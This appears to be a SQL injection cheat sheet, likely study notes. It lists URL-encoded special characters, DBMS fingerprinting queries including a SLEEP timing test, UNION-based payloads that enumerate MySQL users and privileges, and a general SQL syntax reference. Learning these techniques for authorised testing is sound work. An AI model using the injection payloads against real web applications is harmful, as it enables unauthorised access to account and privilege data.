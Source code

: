 ## SQL Payloads
Payload URL Encoded  
'	%27  
"	%22  
\#	%23  
;	%3B  
)	%29  

## Fingerprinting
Payload	When to Use	Expected Output	Wrong Output  
```sql
SELECT @@version	When we have full query output	MySQL Version 'i.e. 10.3.22-MariaDB-1ubuntu1'	In MSSQL it returns MSSQL version. Error with other DBMS.  
SELECT POW(1,1)	When we only have numeric output	1	Error with other DBMS  
SELECT SLEEP(5)	Blind/No Output	Delays page response for 5 seconds and returns 0.	Will not delay response with other DBMS  
```

## Find User
```sql
SELECT USER()  
SELECT CURRENT_USER()  
SELECT user from mysql.user  
cn' UNION SELECT 1, user(), 3, 4-- -  
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -  
SELECT super_priv FROM mysql.user  
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -  
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges-- -  
```

## SQL Queries
```sql
CREATE DATABASE <dbname>;  
SHOW DATABASES;  
CREATE TABLE <tablename>(id INT,username VARCHAR(100),password VARCHAR(100),date_of_joining DATETIME);  
SHOW TABLES;  
DESCRIBE <tablename>;  
INSERT INTO <tablename> VALUES (column1_value, column2_value, column3_value, ...);  
INSERT INTO <tablename>(column2, column3, ...) VALUES (column2_value, column3_value, ...);  
SELECT * FROM <tablename>;  
SELECT column1, column2 FROM <tablename>;  
DROP TABLE <tablename>;  
ALTER TABLE <tablename> ADD newColumn INT;  
ALTER TABLE <tablename> RENAME COLUMN newColumn TO oldColumn;  
ALTER TABLE <tablename> MODIFY oldColumn DATE;  
ALTER TABLE <tablename> DROP oldColumn;  
UPDATE <tablename> SET column1=newvalue1, column2=newvalue2, ... WHERE <condition>;  
SELECT * FROM <tablename> ORDER BY password DESC;  
SELECT * FROM <tablename> ORDER BY password DESC, id ASC;  
SELECT * FROM <tablename> LIMIT 2;  
SELECT * FROM <tablename> LIMIT 1, 2;  
SELECT * FROM <tablename> WHERE <condition>;  
SELECT * FROM logins WHERE username LIKE 'admin%';  
SELECT * FROM logins WHERE username like '___';  
SELECT 1 = 1 AND 'test' = 'test';  
SELECT 1 = 1 OR 'test' = 'abc';  
SELECT NOT 1 = 1;  
SELECT 1 = 1 && 'test' = 'abc';  
SELECT 1 = 1 || 'test' = 'abc';  
```